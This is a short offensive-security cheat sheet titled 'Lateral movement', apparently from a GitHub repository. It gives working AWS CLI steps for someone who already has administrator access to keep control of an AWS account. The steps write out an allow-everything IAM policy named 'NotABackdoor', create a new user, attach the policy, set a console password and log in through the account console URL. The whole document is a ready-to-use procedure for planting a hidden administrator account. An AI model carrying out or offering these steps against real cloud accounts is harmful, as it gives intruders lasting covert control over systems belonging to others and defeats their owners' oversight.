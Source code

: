 # Lateral movement
## Index
* [Gain GUI Acess](#Gain-GUI-Access)

## Gain GUI Access
#### Copy and save the following
- as ```admin-policy.json```
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "NotABackdoor",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

#### Create a new user that will give gui access to
- After gaining administrator
- Note down the ARN
```
sudo aws iam create-user --user-name gui-user --profile <profile name>
```

#### Attach the policy to the new user
```
sudo aws iam put-user-policy --user-name gui-user --policy-name VisualAid --policy-document file://admin-policy.json --profile <profile name>
```

#### Set password for the user
```
sudo aws iam create-login-profile --user-name gui-user --password "GUIAccessTime1" --profile <profile name>
```

#### Login with account ID
- Part from ARN
- ```https://<Account-ID-Number>.signin.aws.amazon.com/console/```
